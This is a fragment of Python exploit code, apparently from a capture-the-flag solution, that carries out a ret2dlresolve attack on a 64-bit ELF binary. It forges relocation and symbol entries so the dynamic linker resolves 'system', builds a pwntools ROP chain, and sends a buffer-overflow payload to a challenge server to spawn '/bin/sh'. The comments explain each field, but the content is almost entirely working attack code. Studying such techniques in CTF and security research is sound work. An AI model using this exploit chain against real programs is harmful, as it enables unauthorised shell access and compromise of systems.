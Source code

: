 ```python
    # const ElfW(Sym) *sym = &symtab[reloc->r_info >> 32]
    # Elf64_Sym is also 0x18 aligned
    r_offset = p64(data_addr)
    relocation_type = 7
    assert (data_addr + 0x18 - symtab) % 0x18 == 0, 'Needs 0x18 alignment!'
    symtab_index = (data_addr + 0x18 - symtab) // 0x18
    r_info = p64((symtab_index << 32) | relocation_type)
    elf64_rel = r_offset + r_info + b'a'*8

    # Now we define the Elf64_Sym we pointed to earlier
    # st_name is the index of the string symbol from strtab
    # So this is very important, it's the name of the function we want to call
    # There's no alignment to be done for it
    # st_info is used to check for indirect functions. STT_GNU_IFUNC	10
    # I verified that setting st_info = 10 breaks the exploit.
    # I don't actually have any idea how ifuncs differ under the hood.
    # st_other contains a VISIBILITY flag inside of it.
    # Should be the 2 least important bits (sym->st_other & 0x03)
    # These have to be set to 0, otherwise it means that the symbol was already resolved.
    # So we just set the whole thing to 0.
    # st_shndx is the 'section index' of the symbol?
    # something really weird and scary that I do not want to understand.
    # It does not seem to be used by dl-runtime.c anyway...
    # st_value is the 'value' of the symbol. Again, no idea.
    # st_size is supposed to be the symbol length? With 0 = unknown
    # Although it does not seem to be used in dl-runtime.c
    # And changing its value does not affect the exploit
    st_name = p32(data_addr + 0x30 - strtab)
    st_info = p8(0) # do not set to 10 lol
    st_other = p8(0x0) # Needed to pass a check
    st_shndx = p16(0x0) # Irrelevant?
    st_value = p64(0x0) # Irrelevant?
    st_size = p64(0x0) # Irrelevant? 0 = symbol size unknown
    elf64_sym = st_name + st_info + st_other + st_shndx + st_value + st_size

    # After this we'll have the symbol string.
    # Next to it I'm putting the bin sh string too,
    # which we will use as argument for system.
    func = b'system\x00'
    arg = b'/bin/sh\x00'
    binsh_addr = data_addr + 0x30 + len(func)

    payload = elf64_rel + elf64_sym + func + arg

    # Defining the rop
    # Write data on data_addr
    rop = ROP(exe)
    rop.call('gets', [data_addr])

    # The call to the default plt stub
    # We set parameters as normal, as if we are really calling system,
    # After it gets resolved the registers will be restored, rdi included
    # In 32bit I guess it works automatically thanks to the stack
    rop.call(0x401020, [binsh_addr])
    raw_rop = rop.chain()
    log.info(rop.dump())

    # Send the rop and reloc_arg, with an additional ret for stack alignment
    # You may have to remove the ret, it depends on the machine.
    # This is so that it works on the challenge server.
    ret = 0x4011d3+1
    p.sendlineafter('name: ', fit({0x48: p64(ret) + raw_rop + reloc_arg}))
    log.info(f'Reloc Arg: {hex(u64(reloc_arg))}')
```